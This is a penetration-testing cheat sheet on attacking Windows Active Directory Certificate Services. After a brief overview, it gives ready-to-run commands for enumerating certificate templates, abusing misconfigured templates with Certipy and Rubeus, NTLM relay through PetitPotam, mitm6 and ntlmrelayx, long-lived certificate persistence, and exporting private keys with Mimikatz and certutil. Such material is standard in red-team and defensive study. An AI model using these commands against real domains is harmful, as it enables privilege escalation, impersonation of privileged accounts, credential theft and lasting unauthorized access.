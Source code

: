```yaml
---
layout: blank
---
```


### Attacking Active Directory Certificate Services (ADCS)

**Overview of ADCS**
- ADCS implements Public Key Infrastructure (PKI) in Windows domains, providing certificates for secure communication, user authentication, and more.
- It integrates tightly with Active Directory, enabling automated certificate issuance and renewal.
- Common uses include:
    - Smart card logon
    - Encrypting File System (EFS)
    - Wi-Fi and VPN authentication

**Key Components**
- Certificate Authority (CA): Issues, revokes, and manages certificates.
- Enrollment Services: Allows users and computers to request certificates via interfaces like the Certificate Enrollment Web Service (CES).
- Certificate Templates: Define certificate properties, validity periods, and permissions.

#### Enumeration
The first step in attacking ADCS is understanding the configuration of the CA, its templates, and associated permissions. Enumerating these components reveals potential misconfigurations that can be exploited.

- **Certipy** - Python tool for ADCS enumeration:
```
certipy find -u {username} -p {password} -dc-ip {dc_IP} -text -stdout
```
    - Look for `[!] Vulnerabilities` in templates and certificates
- **ldapsearch** - Query AD objects for ADCS-related information:
```
ldapsearch -x -h {DC_IP} -b "CN=Configuration,DC=domain,DC=com" "(objectClass=pKIEnrollmentService)"
```
- **Certutil** - View available certificate templates:
```
certutil -template
```

#### Common Vulnerabilities
ADCS often suffers from misconfigurations or insecure defaults that attackers can exploit. Here are the primary vulnerabilities:

- **Misconfigured Certificate Templates**:
    - Templates allowing _Authenticated Users_ to enroll enable low-privilege users to request certificates for accounts with higher privileges.
    - Certificate request agent rights can be abused to impersonate other users.
- **NTLM Relay Attacks**:
    - ADCS web enrollment services often lack Extended Protection for Authentication (EPA), making them vulnerable to NTLM relaying.
- **Vulnerable DACLs**:
    - Improper permissions on CA objects can allow attackers to modify or issue unauthorized certificates.
Insecure configurations allow attackers to escalate privileges by obtaining certificates for sensitive accounts or performing man-in-the-middle attacks.

#### Attack Techniques

**Exploitation of Misconfigured Certificate Templates**
Certificate templates define which users can request specific types of certificates. When a template is misconfigured to allow enrollment by "Authenticated Users," any domain user can request a certificate that provides elevated privileges. This is a common misstep in ADCS deployments.

- Find templates and identify misconfigurations:
```
certipy find -u {username} -p {password} -d {domain}
```
- Request a certificate from a vulnerable template:
```
certipy request -u {username} -p {password} -d {domain} -template {template_name}
```
- Authenticate using the obtained certificate:
```
Rubeus.exe asktgt /user:{username} /certificate:{path_to_cert} /password:{password}
```

**NTLM Relay with PetitPotam**
The PetitPotam attack coerces a target server to authenticate to an attacker-controlled machine via NTLM. When relayed to the ADCS web enrollment service, this can be used to request certificates that allow domain escalation.
- Trigger authentication via PetitPotam:
```
PetitPotam.py {target_DC_IP} {attacker_IP}
```
- Relay NTLM to ADCS:
```
ntlmrelayx.py -t http://{ADCS_IP}/certsrv/certfnsh.asp
```
- Extract and use the resulting certificate to impersonate privileged users.

**Machine-in-the-Middle with mitm6**
ADCS systems are often vulnerable to IPv6 spoofing attacks. Tools like mitm6 allow attackers to intercept NTLM traffic, relaying it to request certificates for privilege escalation.
- Launch IPv6 spoofing:
```
mitm6 -d {domain}
```
- Relay NTLM to ADCS:
```
ntlmrelayx.py -6 -t ldap://{DC_IP} --adcs
```

**Persistence with Certificates**

Certificates are an excellent mechanism for persistence because they allow authentication without passwords. By requesting a long-lived certificate, attackers can maintain access even if the compromised user’s password is changed.

- Request a certificate with extended validity:
```
certipy request -u {username} -p {password} -d {domain} -template {template_name} -validity {days}
```
- Export the certificate for reuse:
```
certutil -exportPFX -p {password} -cert {cert_name} {output_path}
```
- Authenticate using the certificate:
```
Rubeus.exe asktgt /user:{username} /certificate:{path_to_cert}
```

**Certificate Theft**
Attackers can extract private keys and certificates from systems to impersonate users or maintain persistence.
- Dump private keys using Mimikatz:
```
crypto::capi
```
- Export certificates with private keys:
```
certutil -exportPFX -user -p {password} my {output_file}
```

Stolen certificates can be used in attacks such as pass-the-certificate to impersonate users or maintain access to systems.